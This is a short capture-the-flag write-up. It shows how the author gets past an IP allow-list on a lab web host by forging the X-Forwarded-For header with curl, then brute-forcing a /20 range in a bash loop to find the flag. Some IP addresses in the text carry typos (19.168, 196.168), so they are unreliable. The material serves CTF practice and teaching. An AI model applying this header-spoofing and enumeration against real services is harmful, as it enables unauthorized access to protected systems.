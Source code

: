 ## Component replacement 

Points: 3

We're told that we're looking for `fuel efficiency enhancer` at http://key-parts-list.cns-jv.tcc/ and that old ip range was 192.168.96.0/20.

Querying the URL will tell us that it's expecting an IP from engine room: `You are attempting to access from the IP address 10.200.0.41, which is not assigned to engine room. Access denied. `

So we have to 1) find out how to spoof the source IP address and 2) find out an IP from engine room.

For #1 quick google search yields `X-Forwarded-For` header which works:
`curl -H 'x-forwarded-for: 19.168.96.10' http://key-parts-list.cns-jv.tcc/` -> `You are attempting to access from the IP address 19.168.96.10, which is not assigned to engine room. Access denied.`

For #2 let's just run through the whole range and store results:
`for x in {96..127}; do for y in {0..255}; do echo "$x.$y"; curl -H "x-forwarded-for: 192.168.$x.$y" http://key-parts-list.cns-jv.tcc/ 2>/dev/null > "r_${x}_${y}"; done; done`

and then search for the part needed:

`grep -ri 'fuel efficiency enhancer'`
 ->
 `Fuel efficiency enhancer;FLAG{MN9o-V8Py-mSZV-JkRz}`

(Engine room IPs are 192.168.100.32-> 192.168.100.63, i.e.  196.168.100.32/27)
